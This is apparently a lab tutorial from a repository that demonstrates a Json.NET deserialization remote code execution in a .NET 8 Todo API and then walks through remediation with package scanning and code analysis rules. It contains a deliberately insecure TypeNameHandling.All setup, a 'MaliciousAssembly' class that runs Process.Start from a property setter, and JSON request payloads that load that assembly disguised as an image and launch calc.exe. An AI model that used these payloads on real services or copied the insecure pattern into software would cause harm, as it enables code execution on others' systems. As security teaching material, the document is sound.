 # .NET 8 Json.NET Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET.

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-8.0&WT.mc_id=MVP_337682#configure-json-deserialization-options-for-body-binding).

``` C#
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` C#
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

This can be exploited using the following message:

``` json
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": 
        {
          "$type": "System.IO.FileInfo, System.IO.FileSystem",
          "fileName": "rce-test.txt"
        }
    }
}
```

## Load the malicious file

The first REST API call loads the malicious file using:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":
        {
          "$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
          "Path":"someimage.png"}
    }
}
```

The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" 
            }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Remediating the Vulnerability

The next section covers how to close the security vulnerabilities exposed in the prior exercise.

### Scanning for Github Security Advisories

Scan the solution for known vulnerabilities using `dotnet`.

1. Navigate to the solution folder in a command prompt.

1. Execute the following and observe the results.

    ``` bat
    dotnet list package --vulnerable
    ```

1. Execute the a check for transitive dependencies and observe the results.

    ``` bat
    dotnet list package --vulnerable --include-transitive
    ```

Update any vulnerable Nuget packages that are directly referenced. Investigate and update vulnerable transitive dependencies if possible.

For more information, please see:
[How to Scan NuGet Packages for Security Vulnerabilities](https://devblogs.microsoft.com/nuget/how-to-scan-nuget-packages-for-security-vulnerabilities/?WT.mc_id=MVP_337682)

### Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers). Security rules are disabled by default. For a comprehensive list of security rules see [Security Warnings](https://learn.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/security-warnings?WT.mc_id=MVP_337682).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under:

    ``` bat
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```

1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilties.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Security rules are disabled by default.

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the Error List.

    ![Observe Warnings](./images/serialization01.png "Observe Warnings")

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft Json.NET security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    ![Warnings to Errors](./images/serialization02.png "Warnings to Errors")

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` C#
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```C#
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```
